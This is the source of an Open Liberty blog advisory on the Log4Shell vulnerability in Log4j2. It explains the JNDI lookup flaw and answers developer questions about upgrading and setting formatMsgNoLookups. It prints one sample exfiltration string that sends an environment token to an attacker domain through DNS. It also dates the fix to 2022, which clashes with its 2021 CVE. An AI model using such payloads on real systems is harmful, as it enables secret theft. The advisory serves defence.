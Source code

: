 ---
layout: post
title: "Liberty Guide on Log4j2 CVE-2021-44228"
# Do NOT change the categories section
categories: blog
author_picture: https://avatars.githubusercontent.com/u/10999780?s=460&u=1a66e468c70e84f54bf5a75c27881cc6133ccc20&v=4
author_github: https://github.com/Emily-Jiang
seo-title: Liberty Guide on Log4j CVE-2021-44228 (Log4Shell)
seo-description: Open Liberty Guide on understanding and solving Log4j2 CVE-2021-44228
blog_description: Open Liberty provides this essential guide for Open Liberty customers to understand Log4j CVE-2021-44228 (Log4Shell) and the suggestions how to mitigate this threat 
open-graph-image: https://openliberty.io/img/twitter_card.jpg
additional_authors:
- name: Alasdair Nottingham
  github: https://github.com/nottycode
  image: https://avatars3.githubusercontent.com/nottycode
---

On December 10th 2022 the Apache Logging project released a 2.15 release for Log4j2 a popular Java logging framework to address a CVSS 10 scored CVE-2021-44228 known as Log4Shell. 
CVSS 10 is the highest severity score that can be assigned.


The Log4Shell vulnerability occurs due to a combination of a message lookup feature in Log4J and how the Java Naming and Directory (JNDI) API works when connecting via LDAP.when connecting via LDAP. 
A common syntax for variable replacement in configuration is `${variable-name}`, the Log4J message lookup feature enables that capability for log messages. 
Log4J also has a special lookup function for resolving variables from an LDAP server. The syntax for this is `${jndi:ldap://<server name>/<object name>}`. 
When Log4J sees this string it will connect to the provided server to download the object to log the value. 
This will return a serialized object which the LDAP JNDI implementation will deserialize, if the JVM does not have a copy of the class for the serialized object it will use a copy available from the server. 

It is very common for applications using a logging framework to log untrusted input for debugging purposes in case of a failure. 
Meaning if an attacker can work out an input value that will be logged by the application it can insert this string into the payload and when it is logged the Java code will download code from the server controlled by the attacker and execute it. 
To add to the risk present by this lookup function the lookup function is recursive allowing for data exfiltration. Data exfiltration maybe possible even if the targeted LDAP server is not reachable. 
For example a string like `${jndi:ldap://${env.security_token}.<attacker domain>/a}` would resolve the security_token environment variable from the shell and then do a DNS lookup to resolve the IP address using the attackers controlled DNS server providing the hacker with the value of the security token.

Since the original `Log4Shell` Apache has issued two further CVEs affecting Log4J CVE-2021-4104 and CVE-2021-45046. 
As a result of this the recommendation is to upgrade all log4j usage to at least the 2.16 version.

Open Liberty does not ship log4j and as a result any data logged by Open Liberty will not put you at risk. 
However log4j is a widely used framework and your applications may make use of Log4J as a result we have prepared the following Q&A for developers seeking advice:


* Q1. If my applications use log4j, which version of log4j should I use to be safe?

You should update the version of `log4j2` to `2.16`. 

* Q2. If I am running with latest version of Java, am i protected? Do i still need to follow remediate steps? 

`CVE-2021-44228`is specific to Log4J V2 and has nothing to do with Java or its level. Features in the most recent releases of Java mitigate some, but not all of the risk. 


* Q3. It will take a long time to update all our applications is there anything we can do to mitigate in the meantime?

Provided `log4j` 2.10 or newer is being used setting the Java System property log4j2.formatMsgNoLookups to true will mitigate the issue. Setting an environment variable to `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` will also have the same effect. These steps will not mitigate `CVE-2021-45046`.


* Q4 How can I configure Liberty with log4j2.formatMsgNoLookups?

Create a jvm.options file in `${wlp.user.dir}/shared/jvm.options` with `-Dlog4j2.formatMsgNoLookups=true` on a line by itself. Then restart all servers for it to take effect. This will apply to all servers in that user dir.


* Q5. I cannot find `org/apache/logging/log4j/core/lookup/JndiLookup.class` in my log4j jar, am I vulnerable?

It is unlikely you are vulnerable. Most likely you are running log4j1 which is not vulnerable.


* Q6. Could setting `log4j2.formatMsgNoLookups=true` have an effect on log4j 1.x or other non-log4j applications? Is it safe to set this parameter until we have checked every custom written part in our WAS environments? 

The setting should have no affect on non-log4j or log4j 1.x libraries. It is a property related to log4j 2.x behavior.


* Q7. If I set `log4j2.formatMsgNoLookups` to `true` will it affect my application use of log4j2?

Yes, that will be visible to any and all copies of `log4j2` that are in the JVM.

If you are WebSphere Application Server customers, please refer to https://www.ibm.com/support/pages/security-bulletin-vulnerability-apache-log4j-affects-websphere-application-server-cve-2021-44228[this blog] to learn about more on how to respond to this CVE.
You might find the following blogs to be useful: 

* https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/[Vulnerability Affecting Multiple Log4j Versions Permits RCE Exploit]
* https://blog.sebastian-daschner.com/entries/log4shell-and-how-to-fix%C2%A0[The Log4Shell vulnerability and how to fix it]
* http://slf4j.org/log4shell.html[Comments on the CVE-2021-44228 vulnerability from SLF4J]